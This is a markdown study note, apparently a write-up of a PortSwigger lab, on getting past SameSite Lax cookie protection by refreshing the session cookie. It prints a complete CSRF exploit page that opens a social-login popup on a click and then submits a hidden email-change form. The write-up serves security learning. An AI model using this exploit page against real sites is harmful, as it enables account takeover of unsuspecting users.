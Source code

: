```yaml
---
tags:
  - PRACTITIONER
  - Lax
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh
---
```


# `SameSite` Lax bypass via cookie refresh
---

> [!NOTE] NOTE
> To avoid breaking single sign-on (SSO) mechanisms, the browser doesn't actually enforce these restrictions for the first 120 seconds on top-level `POST` requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

> [!hint] Hint
> Browsers block popups from being opened unless they are triggered by a manual user interaction, such as a click. The victim user will click on any page you send them to, so you can create popups using a global event handler as follows:
> ```html
> \<script>
> 	window.onclick = () => {
> 		window.open('about:blank')
> 	}
> \</script>
> ```

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - satisfied

- **Solution**
	- Study the change email function
		1. The `POST /my-account/change-email` request doesn't contain any unpredictable tokens.
		2. `GET /oauth-callback?code=[...]` request. Notice that the website doesn't explicitly specify any `SameSite` restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.
	- Attempt a CSRF attack
	- Bypass the `SameSite` restrictions
	- Bypass the popup blocker
		```html
		<html>
			<body>
				<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
					<input type="hidden" name="email" value="pwned@bar.com" />
				</form>
				<p>Click anywhere on the page</p>
				<script>
					window.onclick = () => {
						window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
						setTimeout(changeEmail, 5000);
					}
					function changeEmail(){
						document.forms[0].submit();
					}
				</script>
			</body>
		</html>
		```


